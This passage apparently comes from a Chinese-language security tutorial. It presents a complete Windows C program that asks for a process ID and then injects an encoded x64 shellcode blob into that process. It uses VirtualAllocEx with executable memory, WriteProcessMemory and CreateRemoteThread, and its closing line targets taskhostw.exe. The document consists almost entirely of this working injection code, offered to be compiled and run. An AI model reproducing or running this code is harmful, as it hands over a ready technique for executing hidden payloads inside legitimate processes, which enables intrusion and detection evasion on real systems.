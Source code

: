编译运行这段代码：

```c
#include <stdio.h>
#include <windows.h>

unsigned char ShellCode[] =
"\x48\x31\xc9\x48\x81\xe9\xd9\xff\xff\xff\x48\x8d\x05\xef\xff"
"\xff\xff\x48\xbb\xa6\xbc\xa1\x22\x73\x10\x99\x2f\x48\x31\x58"
"\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\x5a\xf4\x20\xc6\x83\xef"
"\x66\xd0\x4e\x6c\xa1\x22\x73\x51\xc8\x6e\xf6\xee\xf0\x74\x3b"
"\x21\x4b\x4a\xee\x37\xf3\x42\x4d\x58\x12\x7d\xbe\x82\xe9\xa9"
"\x21\x30\xa7\x67\x2d\xce\xf1\x1c\x3b\x1f\x2e\x65\xec\xf1\x90"
"\xeb\x3b\x21\x59\x83\x9a\xdd\xdd\x20\x5f\x30\xd8\xee\x6f\xb1"
"\xe0\x23\xb2\xf2\x74\x7d\xe7\xed\x9f\x6a\xf8\x42\xb9\x11\x2d"
"\xfe\x9d\x6a\x72\xc0\xa7\xa4\x26\x34\xa1\x22\x73\x58\x1c\xef"
"\xd2\xd3\xe9\x23\xa3\x40\xa7\xa4\xee\xa4\x9f\x66\xf8\x50\xb9"
"\x66\xa7\x6c\x42\x7e\x3b\xef\x50\x11\xe7\x37\x95\xaa\x3b\x11"
"\x4f\x62\x97\x75\xe9\x13\xb3\xbc\xd8\xee\x6f\xb1\xe0\x23\xb2"
"\x28\x79\x5a\x57\x82\xed\x21\x3f\x34\x91\x6a\x9f\x6d\xd4\xf4"
"\x2b\x2e\xdd\xa4\xe6\x98\xe8\x23\xa3\x76\xa7\x6e\x2d\xb0\xe9"
"\x1c\x37\x9b\xd9\x33\xef\xbd\x71\x1c\x32\x9b\x9d\xa7\xee\xbd"
"\x71\x63\x2b\x51\xc1\x71\xff\xe6\xe0\x7a\x32\x49\xd8\x75\xee"
"\x3f\x4d\x02\x32\x42\x66\xcf\xfe\xfd\xf8\x78\x4d\x58\x12\x3d"
"\x4f\xf5\x5e\xdd\x8c\x4d\xd0\xe8\x67\xbc\xa1\x22\x73\x2e\xd1"
"\xa2\x33\x42\xa1\x22\x73\x2e\xd5\xa2\x23\xa7\xa0\x22\x73\x58"
"\xa8\xe6\xe7\x06\xe4\xa1\x25\x17\x66\xfa\xee\x8d\x68\x63\xc9"
"\xe0\x2c\x8d\xf0\x43\x74\x71\x1b\x75\xf5\x43\xc5\xd3\xc5\x47"
"\x53\x78\xf8\x5c\x86\xde\xc4\x47\x1d\x30\xfc\x57\xc3\xdf\xd4"
"\x56\x16\x74\xb8\x2f\xee\xdd\xc2\x49\x53\x72\xe0\x0f\xd5\xd4"
"\xd5\x22\x73\x10\x99\x2f";

int main()
{
	HANDLE Handle;
	HANDLE remoteThread;
	PVOID remoteBuffer;
	DWORD Pid;
	printf("输入待注入进程PID号：");
	scanf("%d", &Pid);
	Handle = OpenProcess(PROCESS_ALL_ACCESS, FALSE,Pid);  //打开进程句柄
	remoteBuffer = VirtualAllocEx(Handle, NULL, sizeof(ShellCode), (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE); // 分配具有可执行权限内存
	WriteProcessMemory(Handle, remoteBuffer, ShellCode, sizeof(ShellCode), NULL); //写入shellcode
	remoteThread = CreateRemoteThread(Handle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
    // 创建远程线程，执行地址为shellcode的起始地址
	CloseHandle(Handle);
	return 0;
}
```
运行后输入一个想要注入的进程ID，这里选择taskhostw.exe这个进程
